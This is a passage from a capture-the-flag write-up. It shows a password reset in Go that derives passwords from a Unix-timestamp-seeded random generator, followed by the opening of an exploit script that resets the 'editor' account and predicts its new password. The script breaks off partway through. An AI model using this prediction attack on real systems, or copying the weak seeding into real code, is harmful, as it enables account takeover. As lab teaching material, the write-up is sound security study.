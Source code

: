```go{linenos=false}
rand.Seed(time.Now().Unix())
password := []byte(fmt.Sprintf("%s\n", rand.Int()))
new_password := fmt.Sprintf("%x", md5.Sum(password))
fmt.Printf("%v", new_password)
```

{{< /notice >}}

Something that struck my eye is that the code uses the current **unix timestamp** as a seed for the **random number generator**.
Can't we just reset the password for `admin` and guess the password?

Sadly this won't be possible because of this snippet of code at the beginning of the function. It detects if the user we are trying to reset is `admin` and won't let us do it.

```go{linenos=false}
if name == "admin" {
  c.HTML(http.StatusOK, "message.html", pongo2.Context{
    "message": "How dare you! My password can't be reset! Are you a criminal?",
  })
  return
}
```

## Becoming editor

However we can still do this to attack the `editor` user. We wrote the following script to do this task for us ([download](assets/generatePassword.go))

```go
package main

import (
	"bytes"
	"crypto/md5"
	"fmt"
	"io/ioutil"
	"math/rand"
	"net/http"
	"strings"
	"time"
)

const HOST = "https://thecybercoopctf-de6c63f7ea31-the-movie-blog-1.chals.io"

func rand_to_md5(rand int) string {
	str := fmt.Sprintf("%d\n", rand)
	// fmt.Printf("str: %s", str)
	hex := fmt.Sprintf("%x", md5.Sum([]byte(str)))
	return hex
}

func unix_to_md5(unix int64) string {
	rand.Seed(unix)
	return rand_to_md5(rand.Int())
}

func main() {
	timeOfReset := time.Now().Unix()

	// Send a POST request to /reset with the name of the user you want to reset the password for
	r, err := http.NewRequest("POST", HOST+"/reset", bytes.NewBufferString("name=editor"))
	if err != nil {
		panic(err)
	}
	r.Header.Add("Content-Type", "application/x-www-form-urlencoded")
```